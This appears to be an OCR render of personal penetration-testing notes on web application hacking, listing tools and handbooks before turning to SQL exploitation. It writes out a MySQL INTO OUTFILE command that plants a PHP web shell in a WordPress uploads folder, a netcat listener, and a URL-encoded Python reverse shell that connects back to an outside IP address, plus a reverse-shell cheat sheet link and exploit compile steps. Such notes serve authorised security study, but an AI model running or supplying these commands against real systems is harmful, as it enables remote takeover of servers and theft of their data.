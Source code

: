 •	Look for vulnerable web software

•	Refer to the Web APP hacking hackers handbook inside kindle

•	Refer to your web app hackers workbook

#### WEB HACKERS TOOKIT

•	WEBBROWSERS

•	Tamper Data

•	Live HTTP Headers

•	Developers TOOLS

•	COOKIE Watchers

•	Vulnerability scanners

•	Refer to the Web APP hacking hackers handbook inside kindle

#### SQL Exploitation

REF: SQL Injection attacks and defenses

#### Try and upload a PHP shell through mysql if if you get root

Mysql > Select "<?php echo shell_exec(*dollar-sign*_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";

Once done, we can navigate to https://*IPAddress*/blogblog/wp-content/uploads/, and we should see our php shell in there.

Once inside the shell, let’s check to see if it works by appending ?cmd=ifconfig to the end of the url. This should give us a 

dirty output - but will let us know if the shell works properly.
 
WEB Shell to shell

 Nc –lvp 443

```
Shell.php?cmd=python%20-c%20'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.7",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### Reverse shell Cheat sheets

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

#### compiling

gcc compile

•	For i386 & ppc compile with the command;

•	gcc -w -o exploit exploit.c
